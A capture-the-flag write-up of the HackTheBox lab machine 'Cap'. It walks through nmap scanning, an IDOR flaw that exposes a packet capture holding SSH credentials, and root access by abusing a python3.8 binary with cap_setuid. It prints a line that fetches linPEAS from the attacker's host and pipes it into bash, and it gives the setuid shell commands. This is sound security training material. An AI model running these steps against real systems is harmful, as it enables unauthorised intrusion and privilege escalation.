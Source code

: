 ```yaml
---
date: 2025-01-27
difficulty: easy
draft: "false"
os: linux
parent: "[[hackthebox-index|HackTheBox Index]]"
skills: nmap, wireshark, linPEAS, idor
tags: [hackthebox, writeup]
title: Cap Write-Up
---
```


# Cap Write-Up

![Cap Overview](./overview.png)

Cap is a machine to learn how the Insecure Direct Object Reference (IDOR) vulnerability works and and with the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script you can abuse a Linux capability to escalate to root.

<!-- truncate -->

## Enumeration

### nmap

nmap finds three open TCP ports, FTP (21), SSH (22), HTTP (80):

```
$ nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.142.220
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 10:39 CET
Nmap scan report for 10.129.142.220 (10.129.142.220)
Host is up (0.036s latency).
Not shown: 62636 closed tcp ports (reset), 2896 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.83 seconds
```

```
$ nmap -p 21,22,80 -sV -sC -oN nmap/services_version 10.129.142.220
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-27 10:43 CET
Nmap scan report for 10.129.142.220 (10.129.142.220)
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.87 seconds
```

### Website by IP - TCP 80

The website is running [Gunicorn](https://gunicorn.org/), which is a python based HTTP server. Browsing to
the page shows a dashboard.

![Webpage Overview](./images/webpage-overview.png)

The section `IP Config` shows the output of the `ifconfig` command.

![Ipconfig Output](./images/ipconfig-output.png)

The section `Network Status` is showing the output of the `netstat` command. This can be a hint that the application is executing system commands.

![[Website Netstat Output](./images/website-netstat-output.png)

If you go back to the `Dashboard` section, the packages retrieved from the current user session are displayed.

![[Dashboard Data5 number Packages](./images/dashboard-data5-number-packages.png)

Clicking on `Download` gives you a packet capture file, which can be examined using Wireshark. The data of the current user session doesn't have anything interesting.

### IDOR

If you look the URL scheme when creating a new capture, the number of the `/data/0` path is incremented for every capture. Modifying the number to see if there are more captures stored from previous user sessions.

Browsing to `/data/0` shows the total packages from previous user sessions.

![[Dashboard Data0 Total Packages](./images/dashboard-data0-total-packages.png)

## Foothold

Opening the capture file with Wireshark reveals the user and the password.

![[Wireshark Data0 Output](./images/wireshark-data0-output.png)

The credentials can be used to login via SSH:

```
$ ssh nathan@10.129.142.220
nathan@10.129.142.220's password:
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Scalation

Using the [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script can show possible attack vectors in the target machine. I download from my machine the script:

```
$ sudo wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

I create a python server to host the linPEAS script:

```
$ sudo python3 -m http.server 80
```

From the target machine I run the script from my python server using the `curl` command to fetch the script data and then pipe it through `bash` to run it without downloading:

```
$ curl http://10.10.14.40/linpeas.sh | bash
```

The output of the script shows an interesting attack vector from `/usr/bin/python3.8` that is
found to have `cap_setuid` and `cap_net_bind_service`, which isn't the default setting.

![[Linpeass Python38 Vector Attack](./images/linpeass-python38-vector-attack.png)

Let's see where is python installed on the system:

```
nathan@cap:~$ which python3
/usr/bin/python3
nathan@cap:~$ ls /usr/bin/ | grep "python3"
python3
python3-config
python3.8
python3.8-config
```

The following commands will give you the root shell to get the flag:

```
nathan@cap:~$ /usr/bin/python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
de7923e9************************
```

And the machine is pwned! ;)

## References

- ch4p. (2021, Jun 05). <span class="reference-title">Cap</span>. *HTB Labs*. [https://app.hackthebox.com/machines/cap](https://app.hackthebox.com/machines/cap)

